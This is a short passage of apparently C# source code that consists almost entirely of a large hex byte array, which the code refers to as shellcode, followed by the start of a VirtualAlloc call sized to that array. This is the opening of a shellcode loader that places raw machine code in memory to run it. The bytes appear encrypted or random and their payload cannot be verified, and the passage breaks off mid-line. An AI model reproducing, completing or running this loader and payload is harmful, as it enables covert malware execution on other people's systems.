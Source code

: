 ```
0x37,0x7c,0xfe,0x42,0x2a,0x5d,0xf3,0xae,0xeb,0x09,0x99,0xfa,0x52,0xc4,0x9c,
0x67,0xd7,0x33,0x8b,0x3d,0xc3,0xa3,0x95,0x5d,0x3c,0x83,0x3b,0xcf,0x23,0x25,
0x7f,0xbe,0x42,0x11,0xb8,0x44,0xba,0xf5,0xf7,0xfa,0x76,0xfb,0xe8,0xc5,0x74,
0xa8,0x7e,0x5b,0xef,0xa7,0x98,0x54,0x6f,0x81,0x5f,0x72,0x9f,0x89,0xc1,0xcc,
0x7d,0x93,0xa8,0xee,0x2c,0x41,0x8f,0x09,0xbe,0x3f,0x9e,0xc5,0x9c,0x73,0xaf,
0xe3,0x38,0x67,0x5e,0xa8,0x01,0xd7,0xce,0x5b,0xcb,0x63,0xfc,0x11,0x52,0xbc,
0x5e,0xc8,0xa6,0x79,0x54,0x65,0xf0,0xcf,0xe0,0x10,0xbd,0x90,0x4f,0x89,0xde,
0xd0,0x8c,0xbd,0xbb,0x61,0x46,0xd6,0x5e,0xff,0x90,0x32,0x77,0x0a,0xb4,0x7f,
0x84,0xee,0xbc,0x91,0x62,0x12,0x9d,0x29,0x02,0xcd,0x64,0x3a,0x35,0x06,0x49,
0x4d,0xa3,0xe5,0x00,0x88,0x5f,0xc0,0xa3,0x07,0xcb,0xc7,0x61,0x1b,0x36,0x19,
0x0e,0xe3,0x28,0x35,0x8e,0xa2,0xc3,0xc0,0xa1,0xc9,0x50,0x34,0xe8,0xb4,0x85,
0x9a,0x8d,0x12,0xe3,0x4d,0xaa,0xcb,0x5c,0x5c,0xc8,0xe2,0xcb,0xe9,0x44,0x68,
0x3a,0x82,0x1c,0x53,0xf6,0x54,0xab,0xda,0x85,0xb8,0x9e,0x3a,0xd8,0xce,0x33,
0x13,0xc4,0x24,0xed,0x99,0x83,0xfb,0xb0,0x90,0x63,0xc2,0xa8,0x97,0xbc,0x40,
0xe7,0xc9,0x6d,0x17,0x58,0x54,0xf6,0x72,0x63,0x3a,0x41,0x43,0xe3,0xa6,0xbc,
0x2d,0xd3,0xe0,0x0c,0x9a,0x10,0xcf,0x7a,0x3c,0xad,0xcf,0x6b,0x39,0xb2,0x74,
0x3e,0xef,0xd9,0xc7,0xe7,0x2e,0x46,0x7e,0xb8,0xd6,0x2a,0x54,0x47,0x59,0x0c,
0xe1,0x18,0x90,0xd1,0xa0,0x00,0x76,0x59,0x14,0x86,0xe5,0xb6,0x31,0xf4,0x9b,
0xea,0x01,0x43,0xf0,0x8c,0xc9,0x36,0x9d,0x9d,0x40,0xe1,0x0f,0xcc,0xdd,0xb6,
0x8f,0x49,0xfa,0x2c,0x89,0xb8,0x4e,0x7b,0x18,0x25,0x60,0x7e,0x7f,0x54,0xcc,
0xfa,0x07,0x7a,0x67,0x72,0xb3,0x89,0xf8,0x66,0x41,0x6b,0x34,0x03,0x11,0x12,
0xd1,0xdd,0x39,0x36,0x30,0x23,0xdf,0x87,0xa2,0x65,0x61,0x66,0x1f,0x54,0x3f,
0x46,0xb5,0x74,0x71,0xb9,0x38,0x8a,0xb4,0xa0,0xfc,0x3c,0x43,0xec,0x51,0xc6,
0x6f,0xab,0xde,0x4d,0xd1,0x7e,0x45,0xb5,0x08,0x85,0x41,0x25,0x58,0x02,0x26,
0xdf,0x24,0xcd,0x06,0x41,0x4f,0x96,0xe4,0x13,0x43,0xc0,0x05,0xf7,0xac,0x31,
0x89,0x1d,0x42,0x7d,0x47,0x83,0x3b,0x41,0x64,0xc2,0xba,0x3b,0x38,0xdb,0xde,
0x32,0x26,0x3c,0xe7,0xab,0x5c,0x01,0x37,0x35,0x32,0x1a,0x25,0xa2,0x30,0x69,
0xf0,0x2c,0xfe,0x5a,0x9b,0x94,0xc7,0x3d,0xfb,0x37,0x74,0x4e,0x58,0xef,0x78,
0xd6,0xdf,0xbd,0x18,0x34,0x09,0xd4,0x6d,0xca,0x47,0xb6,0xbf,0x77,0xf8,0x31,
0x2b,0xc2,0x1f,0xf9,0x93,0x98,0xaf,0xe5,0x86,0xe3,0x35,0xc6,0x57,0xdf,0x17,
0x1d,0x0a,0xec,0x3e,0x45,0xb2,0xc8,0xa8,0x45,0x70,0xc2,0x8d,0xe8,0x05,0x68,
0xb2,0xd1,0x36,0x67,0x63,0xd6,0xa9,0x82,0x99,0x14,0x98,0x45,0xc1,0x3c,0x87,
0x21,0xb2,0x6c,0x71,0x72,0xb1,0x80,0x11,0x74,0x05,0xed,0x15,0x96,0x88,0x9b,
0x44,0x16,0x10,0xa7,0x00,0x02,0xf2,0x77,0xa5,0xc1,0xdf,0xe3,0xd9,0xd6,0xf9,
0xfd,0xb0,0x27,0x0a,0x07,0x31,0xf4,0x4f,0x22,0x7d,0xc1,0x20,0xbd,0x87,0x30,
0x99,0xd9,0x52,0xcf,0xa4,0x79,0x10,0x01,0x33,0x59,0xc9,0x89,0xa6,0xd5,0xb8,
0xd0,0xe7,0x80,0x7b,0xe4,0xc3,0x3b,0x9d,0x9c,0x9d,0x9c,0xea,0xba,0xab,0x54,
0x4a,0x87,0xe1,0x7d,0x71,0xe9,0xe9,0xbb,0xd9,0x17,0xdc,0xd3,0x3f,0xbf,0x4c,
0x7f,0xcd,0xde,0xa0,0x64,0x41,0x20,0xb4,0x24,0x30,0x57,0xcf,0xe8,0x04,0xc2,
0xe4,0x7c,0xb2,0xa5,0x28,0x33,0x6c,0xe8,0x7b,0x9a,0xac,0xc9,0x0c,0xb3,0xb7,
0x48,0xbd,0xb3,0x6a,0xf1,0xfc,0x31,0xcb,0x21,0x39,0x32,0x97,0x7b,0x3c,0x9e,
0x66,0xfa,0xca,0xfe,0xa3,0xcb,0x41,0x2f,0x0f,0x4b,0x6d,0x0b,0x54,0x78,0x2e,
0x85,0x51,0xa5,0x51,0x76,0xef,0xf5,0xf3,0xa7,0xff,0x4a,0x5f,0x7b,0x8d,0xb0,
0x15,0x85,0x78,0xbb,0xd3,0x0a,0x21,0x46,0x3f,0xeb,0x6c,0x9b,0xed,0xd5,0x80,
0xaa,0xf2,0x6b,0x48,0xb1,0x88,0x39,0x3c,0xa8,0x68,0x50,0x06,0xb5,0xa5,0x23,
0x6c,0x8e,0x0c,0xa5,0x95,0x38,0x45,0xfc,0xf5,0xe8,0x7a,0xcb,0xf6,0x91,0xd9,
0xbc,0x9a,0x4b,0x1a,0x60,0xb1,0xc6,0xa7,0xc5,0x0e,0x4b,0xc1,0x74,0xc7,0x74,
0x0e,0xe2,0xdb,0xca,0xce,0xee,0xf4,0x5d,0x80,0xa6,0x7f,0x05,0x8c,0xf1,0xa4,
0x63,0x5e,0xd2,0xca,0xb0,0xc0,0xd1,0xb8,0xb1,0x22,0x8e,0x26,0xac,0x55,0xd4,
0x41,0x36,0x42,0xff,0xb6,0xfc,0x87,0x62,0xfe,0x8b,0x4f,0x47,0x83,0xc4,0x93,
0x38,0x7c,0xfb,0x55,0xa3,0xd8,0xc2,0x53,0x1f,0x27,0x47,0x75,0x56,0xfc,0xcd,
0xc9,0x9e,0x08,0xfe,0x35,0x74,0x2a,0xf3,0x27,0x22,0xad,0x8e,0x41,0xde,0xb6,
0xf2,0xf2,0xe8,0xb7,0x82,0x3b,0x66,0x38,0x95,0x46,0x4e,0x35,0x75,0x48,0x86,
0xab,0xdd,0x43,0x08,0xc7,0xcd,0x29,0xac,0x20,0xb5,0x3a,0x75,0x5f,0x39,0x85,
0xf1,0xd4,0xd4,0xf6,0xb6,0x35,0x65,0xc4,0x57,0x05,0x69,0x90,0x9a,0xfb,0x18,
0xee,0x0d,0xd3,0x02,0xae,0x40,0x38,0xac,0xaa,0x40,0x4c,0x9c,0xc9,0x3a,0xca,
0x24,0x09,0xe7,0x0c,0x8c,0x68,0xb5,0x66,0x61,0x78,0xf2,0xd0,0x29,0xea,0x33,
0xeb,0xb5,0x4d,0xc4,0xc8,0x8e,0xf1,0x28,0xdf,0xed,0xee,0xe9,0x29,0xc5,0x91,
0xea,0x1f,0x7d,0x47,0xbd,0xf9,0xde,0x66,0x58 };


              
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
```